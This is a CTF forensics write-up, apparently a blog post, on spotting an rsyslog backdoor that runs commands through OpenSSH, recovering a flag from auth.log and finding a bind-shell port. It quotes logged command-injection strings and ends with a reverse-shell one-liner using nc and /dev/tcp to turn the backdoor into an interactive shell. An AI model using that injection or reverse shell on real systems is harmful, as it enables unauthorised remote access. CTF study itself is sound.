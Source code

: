 ```yaml
---
layout: post
title:  "5Charlie CTF - Aperture"
date:   2020-04-25 01:31:48 -0500
categories: [ctf, write-up, forensics, linux]
---
```


## Aperture 1

## Aperture 1 - Challenge

To access these challenges, ssh to <wheatley@analysis.5charlie.com>

What is the full path to the configuration file that has been backdoored to allow command execution through OpenSSH?

**Attachments:** `id_wheatly` - SSH Key

### Aperture 1 - Solution

Getting our bearings on the system we very quickly find that this system is a very minimal isolated Docker container.
Let's try to figure out what may have been played with by figuring out the most recently modified files

We'll specifically be using the `-t (sort by modifcation time)` flag and `-r (reverse sorting)` flag on our `ls` so that it gives us the most likely files closest to our prompt at the bottom.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
total 80
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   1 root root 4096 Mar 11 21:03 usr
drwxr-xr-x   2 root root 4096 Mar 11 21:03 srv
drwxr-xr-x   2 root root 4096 Mar 11 21:03 opt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   1 root root 4096 Mar 11 21:05 var
drwx------   2 root root 4096 Mar 11 21:05 root
dr-xr-xr-x  13 root root    0 Apr 10 19:45 sys
drwxr-xr-x   1 root root 4096 Apr 13 04:57 lib
drwxr-xr-x   1 root root 4096 Apr 13 04:57 sbin
drwxr-xr-x   1 root root 4096 Apr 13 04:58 bin
-rwxr-xr-x   1 root root    0 Apr 25 06:36 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 25 06:36 ..
drwxr-xr-x   1 root root 4096 Apr 25 06:36 .
dr-xr-xr-x 142 root root    0 Apr 25 06:36 proc
drwxr-xr-x   1 root root 4096 Apr 25 06:36 run
drwxr-xr-x   5 root root  400 Apr 25 06:36 dev
drwxr-xr-x   1 root root 4096 Apr 25 06:36 etc
drwxrwxrwt   1 root root 4096 Apr 25 06:36 tmp
wheatley@e2a54f310336:/$
```

There's nothing of interest in `/tmp` so next we dig into `/etc` which has plenty of configuration files that could be tweaked to cause security problems.

Let's continue down.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
...[truncated]
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc4.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc3.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc2.d
-rw-r--r-- 1 root root    1252 Apr 13 04:57 passwd-
-rw-r--r-- 1 root root   13548 Apr 13 04:57 ld.so.cache
-rw-r--r-- 1 root root      22 Apr 13 04:58 subuid
-rw-r--r-- 1 root root      22 Apr 13 04:58 subgid
-rw-r----- 1 root shadow   691 Apr 13 04:58 shadow
-rw-r--r-- 1 root root    1297 Apr 13 04:58 passwd
-rw-r----- 1 root shadow   499 Apr 13 04:58 gshadow
-rw-r--r-- 1 root root     596 Apr 13 04:58 group
-rw-r--r-- 1 root root      36 Apr 13 04:58 ld.so.preload
drwxr-xr-x 1 root root    4096 Apr 13 04:58 ssh
drwxr-xr-x 1 root root    4096 Apr 13 04:58 rsyslog.d
lrwxrwxrwx 1 root root      12 Apr 25 06:36 mtab -> /proc/mounts
drwxr-xr-x 1 root root    4096 Apr 25 06:36 ..
-rw-r--r-- 1 root root     174 Apr 25 06:36 hosts
-rw-r--r-- 1 root root      13 Apr 25 06:36 hostname
-rw-r--r-- 1 root root      97 Apr 25 06:36 resolv.conf
-rw-r--r-- 1 root root    1358 Apr 25 06:36 rsyslog.conf
-r--r----- 1 root root     755 Apr 25 06:36 sudoers
drwxr-xr-x 1 root root    4096 Apr 25 06:36 .
wheatley@e2a54f310336:/etc$
```

Attempting to check our sudo privileges with `sudo -l` gives us a password prompt: no dice.

`hosts`, `hostname`, `resolv.conf`, and `mtab` were modified by Docker coming up. We can look, but it's nothing relevant.

`rsyslog.conf` and `rsyslog.d` were recently modified; that's a bit strange. Looking up rsyslog backdoors gives us Jacob Lell's post as the first result: <https://www.jakoblell.com/blog/2014/05/07/hacking-contest-backdooring-rsyslogd/>

In our own `/etc/rsyslog.d/rsyslog-README.conf` we can immediately see `auth.* ^/bin/atg` on line 77: an exact match to the blog post.

**Flag:** `/etc/rsyslog.d/rsyslog-README.conf`

## Aperture 2

### Aperture 2 - Challenge

What is the flag sent to the backdoored service?

### Aperture 2 - Solution

The backdoor commands are logged in `/var/log/auth.log` because it operates on the same port as SSH.

We can see that (if you tested connecting yourself) `auth.log` logs the attempts as `Bad protocol version identification <cmd>`.

To find the flag sent to the service historically, we can grep for that.

{% highlight bash %}
cat /var/log/auth.log | grep 'Bad proto'
{% endhighlight %}

``` text
Apr 13 04:33:58 5985561554b6 sshd[632]: Bad protocol version identification '';echo ZmxhZ3thbHdheXNfY2hlY2tfeW91cl9sb2dzfQo=;'' from 172.19.0.2 port 46120
Apr 13 04:34:37 5985561554b6 sshd[878]: Bad protocol version identification '';touch /tmp/owned;'' from 172.19.0.2 port 46122
wheatley@e2a54f310336:/etc$
```

We see a base64 encoded string, which, when decoded, gives us our flag.

**Flag:** `flag{always_check_your_logs}`

## Aperture 3

### Aperture 3 - Challenge

What port on this host is hosting a malicious bind shell?

### Aperture 3 - Solution

Since this host doesn't have anything like `netstat` or `ss`, we'll need to examine the `/proc` directory to determine open ports.

Nothing of interest in `/proc/net/tcp` or `/proc/net/udp`.

But if we look at `/proc/net/tcp6` we notice can see that there is a port bound to the wildcard (`::` aka the repeating zeros on index 1) with a port of hexidecimal `19B7`.

![/proc/net/tcp6 and Python3 conversion](/blog_images/5charlie-ctf-aperture-3-tcp6.png)

Converting that port to decimal, we have our flag.

**Flag:** `6583`

## Aperture 4

### Aperture 4 - Challenge

What is the name of the process listening on port 6583? (give just the short process name, no need to include the full path)

### Aperture 4 - Solution

To be added

**Flag:** `TBD`

## Additional Notes

I have a bad habit of losing focus in CTFs a bit and playing around with the environment. Here is a line to leverage the provided backdoor as a shell instead of single-command.

{% highlight bash %}
nc -nvlp 1234 &
echo "';bash -i >& /dev/tcp/127.0.0.1/1234 0>&1;'"|nc 127.0.0.1
fg
{% endhighlight %}
